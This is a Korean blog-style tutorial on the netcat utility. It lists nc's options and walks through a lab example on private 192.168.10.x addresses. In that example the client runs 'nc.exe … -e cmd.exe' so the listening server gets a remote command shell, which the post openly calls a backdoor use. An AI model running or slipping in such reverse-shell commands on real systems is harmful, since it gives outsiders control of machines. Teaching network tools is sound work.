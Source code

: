 ```yaml
---
layout: post
title:  "[NC] NetCat 사용하기"
date:   2016-09-08 19:23:13
author: Choi HyeSun
categories: infra
tags:
  - CentOS
  - NC
  - NetCat
---
```


## NC(Netcat)

- Netcat(이하 nc)은 Network connection에서 raw-data read, write를 할 수 있는 유틸리티 프로그램

- 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는 network connection에 읽거나 씀

- 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리

- 해킹에도 이용범위가 매우 넓음

- 임의의 TCP, UDP 포트에서 상대방 TCP, UDP로 데이터를 보내는 도구

- nc.exe 실행파일과 명령어를 통해 백도어 기능을 사용할 수 있음

<br>
<br>

## 사용법

- nc \[options] \[target host] \[ports]

- options

  - \-4: IPv4

  - \-6: IPv6

  - \-D: socket 디버깅 가능

  - \-d: STDIN 입력을 읽어들이지 않음

  - \-h: help

  - \-i: send/recv, multiple port 연결 사이의 interval 지정. 

  - \-k: listening 모드로 실행되었을 때 연결이 완료되더라도 프로세스가 종료되지 않도록 하는 옵션.
  <br>-l 옵션과 함께 사용되지 않으면 에러.

  - \-l: listening 모드로 실행. -p, -s, -z 옵션과 함께 사용되면 에러. -w 옵션은 무시됨.

  - \-n: hostname을 ip로만 지정.

  - \-p: source port 지정. -l 옵션과 함께 사용되면 에러.

  - \-r: source/destination port를 범위로 지정했을 때 랜덤한 순서로 연결시도.

  - \-S: RFC 2385 TCP MD5 signature 옵션.

  - \-s: 패킷을 전송할 IP 지정. -l 옵션과 함께 사용되면 에러.

  - \-T: 연결에 ToS 지정.

  - \-C: CRLF line-ending 전송.

  - \-t: netcat을 telnet session으로 사용가능 하게.

  - \-U: Unix Domain Socket을 사용하도록 지정.

  - \-u: UDP 사용.

  - \-v: 과정 출력

  - \-w: connection/stdin timeout 지정. -l 옵션과 함께 사용하면 무시됨. 

  - \-X: proxy version 지정.

  - \-x: proxy server의 hostname, port 지정.

  - \-z: 아무 데이터도 전송하지 않고 listening daemong만 스캔. -l 옵션과 함께 사용하면 에러.
 
<br>
<br>

## 예시

- 다음과 같은 환경 준비

  - Server : win7 / ip 192.168.10.64
  - Client : win XP / ip 192.168.10.22

  - 서버 및 클라이언트에 nc.exe 설치

  - IP 주소 확인

- 첫 번째. Server에서 1234포트를 열고 nc.exe를 실행한 후 대기

  - C:\\> nc.exe –lvp 1234
  
- 두 번째. Client가 Server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여

  - C:\\> nc.exe 192.168.10.64 1234 –e cmd.exe
  
  - Server는 client의 cmd.exe 권한을 갖게 됨

- 세 번째. Server는 client의 cmd.exe를 통해 작업을 할 수 있음
 
  - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
